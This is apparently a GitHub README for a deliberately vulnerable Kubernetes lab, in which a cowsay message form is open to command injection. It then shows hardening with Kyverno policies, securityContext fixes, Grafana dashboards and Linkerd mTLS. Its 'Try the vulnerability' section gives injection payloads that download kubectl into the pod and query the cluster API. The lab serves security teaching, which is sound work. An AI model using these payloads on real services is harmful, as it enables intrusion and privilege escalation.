 <div align="center">
  <img src="https://github.com/GridexX/vulnerable-web-stack-kube/assets/50552672/990b9e90-7446-4c4f-b9ad-4fe1225d21fd" width="300">
  <h1>
    Vulnerable Web Stack Kube
  </h1>
  <h4>How missconfigured services inside Kubernetes can lead to privilegies escalation</h4>
  <p align="center">
    <a href="https://github.com/GridexX/vulnerable-web-stack-kube"><img src="https://img.shields.io/github/stars/GridexX/vulnerable-web-stack-kube.svg?style=flat" alt="stars"></a>
    <a href="https://github.com/GridexX/vulnerable-web-stack-kube"><img src="https://img.shields.io/github/license/GridexX/vulnerable-web-stack-kube.svg?style=flat" alt="license"></a>
  </p>
</div>



There are two services in this repository, a client and a server. The client is a simple web application that send a message to the server. The server is a simple web application that receive a message and display it in the console with the cowsay command.

## How to use it ❓

```bash
cd vulnerable-web-stack-kube
kubectl apply -f ./k8s/resources
# Port-forward the client and server application
kubectl port-forward client-deployment-ip-service 8080:80
kubectl port-forward server-deployment-ip-service 3000:8000
```

### Try the vulnerability 🥷

Open your browser and go to [http://localhost:8080](http://localhost:8080). You will see a form with a text area. Write a message and click on the send button. You will see the message displayed in the console of the server pod.

Copy and paste the following text into the text area:

```bash
hello; curl -LO https://dl.k8s.io/release/$(curl -Ls https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl; chmod +x ./kubectl
```

This will download kubectl inside the pod and give us the possibility to execute command inside the pod

```bash
hello; ./kubectl get pods
```

We can see that the command is executed inside the pod and that we can reach the kube API

### Protect the cluster with kyverno 🏰

To protect the cluster we will use kyverno. Kyverno is a policy engine for Kubernetes. It allows us to define policies that will be applied to the cluster.
We will also display the policy violations in a grafana dashboard.
To do so, we will deploy the kube-prometheus-stack chart and kyverno with Helm:

```bash
# Install the Helm repository
cd ./vulnerable-web-stack-kube
helm repo add kyverno https://kyverno.github.io/kyverno/
helm repo add prometheus-community https://prometheus-community.github.io/helm-charts
helrm repo update
helm install kyverno kyverno/kyverno -f k8s/values/kyverno-values.yaml -n kyverno --create-namespace
helm install prom-stack prometheus-community/kube-prometheus-stack -f k8s/values/prom-stack-values.yaml
# Port-forward the grafana dashboard
kubectl port-forward -n prom-stack-grafana-uuid 3001:3000

# Fix the policy violation
# Remove the resources
kubectl delete -f ./k8s/resources
# Apply the policies
kubectl apply -f ./k8s/policies
```

Now if we re-deploy the resources, we will se that the server pod is not created.

To fix the policy violation, we added `securityContext` fields in the deployment manifest of the server.
With this fixed manifest, the server pod will be created. Apply the fixed manifest with:

```yaml
# Reapply the fixed resources policies
kubectl apply -f ./k8s/resources_fixed
```

Restart the port-forwarding of the server pod and try again the vulnerability. You will see that the command is not executed inside the pod :cwhite_check_mark:

#### See the policy violations in the grafana dashboard 📊

Go to [http://localhost:3001](http://localhost:3001) and login with the default credentials (admin:prom-operator).
You will see the dashboard with the policy violations.

### Sign and build the docker images ✍️

This step describes how to build and sign the docker images.

1. The server

    ```bash
    cd ./services/server
    docker build -t <your-docker-hub-username>/vulnerable-web-stack-kube-server:latest .
    docker trust sign <your-docker-hub-username>/vulnerable-web-stack-kube-server:latest
    ```

2. The client

    ```bash
    cd ./services/client
    docker build -t <your-docker-hub-username>/vulnerable-web-stack-kube-client:latest .
    docker trust sign <your-docker-hub-username>/vulnerable-web-stack-kube-client:latest
    ```

### Add a service Mesh and mTLS communication between services

> [!NOTE]
> This step is optional and requires a service mesh like Linkerd. To do so, you first need to install the Linkerd CLI and the Linkerd control plane.

1. Install the Linkerd CLI

    ```bash
    curl --proto '=https' --tlsv1.2 -sSfL https://run.linkerd.io/install | sh
    export PATH=$PATH:$HOME/.linkerd2/bin
    ```

2. Install the Linkerd control plane

    To check that check and validate that everything is configured and your cluster is ready to install Linkerd, run:

    ```bash
    linkerd check --pre
    ```

    If there are any checks that do not pass, make sure to follow the provided links and fix those issues before proceeding.

    Now Install the Linkerd control plane by running:

    ```bash
        linkerd install | kubectl apply -f -
    ```

3. Install Linkerd onto your cluster

    Now that you have the CLI running locally and a cluster that is ready to go, it’s time to install Linkerd on your Kubernetes cluster. To do this, run:

    ```bash
    linkerd install --crds | kubectl apply -f -
    linkerd install | kubectl apply -f -
    ```

    Wait for the control plane to be ready (and verify your installation) by running:

    ```bash
    linkerd check
    ```

4. Add mTLS communication between the services

    Ensure, the Server and Client services are running in the `default` namespace. We will now install the Linkerd service mesh and add mTLS communication between the services.

    ```bash
    kubectl get deploy -o yaml \
    | linkerd inject - \
    | kubectl apply -f -
    ```

    This command retrieves all of the deployments running, runs their manifests through linkerd inject, and then reapplies it to the cluster. This will add the Linkerd proxy to each of the deployments, and enable mTLS communication between the services.

    > [!NOTE]
    > Congratulations! You have now installed Linkerd and added mTLS communication between the services.

5. Explore the Linkerd dashboard (optional)

    We’ve added Linkerd to Cowsay, but there are no visible changes to the application!

    Let’s take a closer look at what Linkerd is actually doing. To do this, let’s install the viz extension, which will install an on-cluster metric stack and dashboard.To install the viz extension, run:

    ```bash
    linkerd viz install | kubectl apply -f - # install the on-cluster metrics stack
    ```

    Once you’ve installed the extension, let’s validate everything one last time:

    ```bash
    linkerd check
    ```

    With the control plane and extensions installed and running, we’re now ready to explore Linkerd! Access the dashboard with:

    ```bash
    linkerd viz dashboard &
    ```

    This command will open the Linkerd dashboard in your default web browser.

## Clean the cluster 🗑️

```bash
kubectl delete -f ./k8s/policies
kubectl delete -f ./k8s/resources
```

### Licence

This project is licensed under the MIT License - see the LICENSE file for details. 

### Author 👨‍💻

Developped in the ☁️ with 🔒 by [GridexX](https://github.com/GridexX)

